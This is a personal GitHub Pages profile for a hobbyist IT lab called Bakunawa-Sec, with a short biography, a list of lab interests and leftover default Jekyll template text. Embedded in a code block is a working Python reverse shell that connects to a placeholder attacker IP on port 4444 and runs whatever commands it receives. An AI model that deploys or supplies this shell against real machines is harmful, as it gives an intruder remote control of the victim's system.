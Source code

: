 ## Welcome to Jong Pairez GitHub Page

Jong Pairez is an IT Specialist with a background in Research and Design. He integrates artistic practice with end-user computing by applying creative approaches in working around technology. He loves listening to Death Metal and enjoys hacking inexpensive single-board-computers to simulate recent vulnerabilities in Enterprise IT Infrastructures. This GitHub page is his simple laboratory for Bakunawa-Sec. 

### Bakunawa-Sec

Bakunawa-Sec is a simple IT solutions laboratory for end user computing. It is also an open-learning space for amateur IT heldesk who are interested in novice open-source technology. Bakunawa-Sec builds, tests, and deploy tools for the following:

- Home Virtual Laboratory Servers
- Network Engineering
- Experimental Automation Projects
- Software/Hardware Reverse Engineering
- Troubleshooting Commercial Desktops
- IT Service Delivery

Open for collab!

```markdown

##   _   _   _   _   _   _   _   _   _   _   _   _  
##  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
## ( b | a | k | u | n | a | w | a | - | s | e | c )
##  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 
##

#!/bin/bash/py
# Connect Back

import socket
import subprocess

SERVER_HOST = "<IP Address of Attacker>"
SERVER_PORT = 4444
BUFFER_SIZE = 1024

#Create socket and connect to the server
s = socket.socket()

#Connect to server (banana one)
s.connect((SERVER_HOST, SERVER_PORT))

#Receive check message
message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

#The LOOP
while True:
    #Receive command from server
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        #If the command is exit, just break out from the loop
        break

    #Execute command and retrieve results
    output = subprocess.getoutput(command)

    #Send results back to the server (banana-one)
    s.send(output.encode())

#Close client connection
s.close()

[Link](url) and ![Image](src)
```
For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

`This is a code`

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/bakunawa-ops/Bakunawa-Sec/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
